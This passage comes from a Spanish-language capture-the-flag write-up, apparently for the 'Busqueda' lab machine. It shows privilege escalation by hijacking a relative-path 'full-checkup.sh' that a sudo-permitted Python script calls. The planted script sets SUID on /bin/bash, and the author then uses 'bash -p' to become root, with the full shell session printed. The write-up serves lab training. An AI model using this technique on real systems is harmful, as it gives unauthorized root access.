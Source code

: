 En el archivo del script, se mencionaba la función `full-checkup` en la cual probaba de ejecutar un script llamado `full-checkup.sh`. De la manera que está representado este valor, no se le indica la ruta absoluta del archivo de Bash, con lo cual nos puede permitir crear un archivo con el mismo nombre que realice otra acción que deseemos. Recordemos que este script lo ejecutamos como usuario `sudo`, con lo cual podríamos llegar a modificar archivos, etc para lograr acceso al sistema.

<figure><img src="../../.gitbook/assets/imagen (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo tanto, decidimos de crear un archivo llamado `full-checkup.sh` que lo que realizaría es otorgar al binario `/bin/bash` permisos de `SUID`.

Al ejecutar el script con la función `full-checkup`, al disponer del script malicioso en el mismo repositorio, se nos indicó el mensaje de `Done`.

Revisamos los permisos de `/bin/bash` y comprobamos que tiene permisos de `SUID`. Nos aprovechamos de esto para convertirnos en usuario`root` y visualizar la flag de **root.txt**.

```bash
svc@busqueda:/tmp$ ls -l full-checkup.sh 
-rwxr-xr-x 1 svc svc 33 Feb 13 06:07 full-checkup.sh
svc@busqueda:/tmp$ cat full-checkup.sh 
#!/bin/bash

chmod u+s /bin/bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ bash -p
bash-5.1$ whoami
root
bash-5.1$ cat /root/root.txt 
219cc898cfb2*********************
```
